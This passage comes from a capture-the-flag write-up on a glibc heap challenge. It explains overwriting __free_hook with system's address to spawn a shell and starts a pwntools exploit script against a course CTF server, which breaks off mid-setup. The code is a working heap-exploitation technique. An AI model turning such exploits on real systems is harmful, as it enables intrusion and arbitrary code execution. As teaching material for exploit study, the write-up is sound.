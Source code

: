     )

    edit_note(1, 0x38, data + fake_chunk)
    edit_note(2, 0x8, p64(libc_sys_addr))
    ```
    ![](https://imgur.com/dSw1vms.png)
    Note that, the data of `note` structure is a pointer that point to a space that system malloc. Thus, `edit_note` function will modify the pointed space, so that `edit_note(b'2\n', b'8\n', p64(libc_sys_addr))` will modify `[free_hook_addr]` instead of `index 2`.
    ![](https://imgur.com/ycuFgwR.png)
    
4. Delete `index 1` and call `__free_hook`
When we free `index 1` and `__free_hook` is not NULL, then `__free_hook` can be a function pointer to execute `0x7ffbb6500290` that is `__libc_system` and the parameter is `index 1` data, that is `/bin/sh\x00`
    ```python!
    delete_note(1)
    ```

5. Well, we got shell!!
![](https://imgur.com/PJGAAba.png)

* Whole exploit
    :::spoiler code
    ```python=
    from pwn import *

    # r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10007)

    context.arch = 'amd64'

    def add_note(idx, note_name):
        r.sendafter(b'> ', b'1')
        r.sendlineafter(b'index\n> ', str(idx))
        r.sendafter(b'note name\n> ', note_name)

    def edit_note(idx, note_size, message):
        r.sendafter(b"> ", b"2")
        r.sendlineafter(b'index\n> ', str(idx))
        r.sendlineafter(b'size\n> ', str(note_size))
        r.send(message)

    def delete_note(idx):
        r.sendafter(b"> ", b"3")
        r.sendlineafter(b'index\n> ', str(idx))

    def show_note():
        r.sendafter(b"> ", b"4")

    '''------------------
    Construct heap memory
    ------------------'''
    add_note(0, b'a'*8)
    edit_note(0, 0x418, b'a')
